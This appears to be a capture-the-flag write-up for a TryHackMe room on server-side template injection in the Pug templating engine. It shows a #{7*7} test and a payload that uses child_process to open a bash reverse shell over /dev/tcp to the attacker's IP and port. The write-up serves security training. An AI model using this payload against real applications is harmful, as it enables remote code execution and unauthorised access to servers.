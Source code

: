 [Template Room Link](https://tryhackme.com/room/templates)
<H6>Introduction</H6>
My favourite type of dog is a pug... and, you know what, Pug is my favourite templating engine too! I made this super slick application so you can play around with Pug and see how it works. Seriously, you can do so much with Pug!.

First thing first i did is to research about the Pug template engine becasue this is my first time i heard it. After reasearching from the documentation of the [Pug official](https://pugjs.org/api/getting-started.html), im sure we can do SSTI.

![](Images/Template-Image-1.png)

from the above image we can do SSTI with #{injection}, for the first payload i will test it with using 
```Js
#{7\*7}
```

![[../Images/Template-Image-2.png]]

then click convert will return this

![[../Images/Template-Image-3.png]]

after that we can further attack with different payload that can help up find the flag. In this case, i will try to make reverse shell that will connect to my computer with this payload
```Js
h1 #{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('bash -c "exec bash -i &>/dev/tcp/IP/PORT <&1"')}()}
```
that payload will make connection back to our computer we thay render the code

![[../Images/Template-Image-4.png]]

<H4>Link that can Help</H4>
[SSTI Cheat Sheet](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
